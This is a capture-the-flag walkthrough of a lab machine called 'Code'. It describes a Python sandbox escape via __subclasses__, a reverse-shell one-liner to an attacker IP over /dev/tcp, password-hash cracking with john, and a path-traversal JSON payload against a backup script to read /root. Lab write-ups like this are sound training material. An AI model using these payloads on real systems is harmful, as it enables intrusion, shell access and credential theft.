

# 👨‍💻Code

## 🧠Summary
 >The machine hosted a restricted Python code editor on port 5000, blacklisting keywords like import and os. After discovering that subprocess.Popen was accessible via __subclasses__()[317], I crafted a reverse shell payload to gain Docker access. Inside the container, I found a database.db containing hashed credentials. After cracking the hash, I SSH’ed into the main system. Privilege escalation was achieved via a vulnerable backy.sh script that processed a crafted JSON payload to dump /root via a .tar file, revealing the root flag.

## 🔎Step 1 (Nmap scan)
- Did a Nmap scan to determine the open ports in the machine
  ```bash
  nmap -sV -v 10.10.11.62
  ```
  - The result of the nmap scan is 
  - The ssh and port 5000 which host http is found open

## 🌐Step 2 (Web enumeration)
- Tried web enumeration and subdomain enumeration and negative

## 📌Step 3 (Loop hole)
- Finally came to the conclusion to use the code editor to exploit the system
- Tried to write a reverse shell program by importing the module socket and failed
- The word import is blacklisted tried to bypass it using "__import__()" still failed
- Tried to find what all modules are present and found popen which is a submodule of subprocess
- Exploited this using the code
  ```bash
  raise Exception(str((()) .__class__.__bases__[0].__subclasses__()[317]("bash -c 'bash -i >& /dev/tcp/your_IP/4444 0>&1'", shell=True, stdout=-1).communicate()))
  ```
- Used netcat to connect to my ip address and got a docker bin
- Manually searched the directories manually and found database.db
- Dumped the database.db and got the username and password hash

## 🔐Step 4 (password cracking)
- Stored the password hash inside a hash.txt file
- Used john and wordlist rockyou.txt to crack the hash and successfully cracked the password

## ⚓Step 5 (Foothold)
- ssh into the machine using the obtained hash and username
- Captured the user flag from the home directory
- Used sudo -l and found out that a bash program called backy can be exploited
- Searched in the net for info and found out it uses a json input and give a .tar file output which dumps what we gave into the json file
- Found a json exploit in the net for this
  ```json
  {
  "destination": "/home/martin/",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/home/....//root/"
    ]
  }
  ```
- It dumped a .tar file and extracted the tar file
- The extracted file contain a root directory in which the root flag was present
- Captured the root flag 🏴
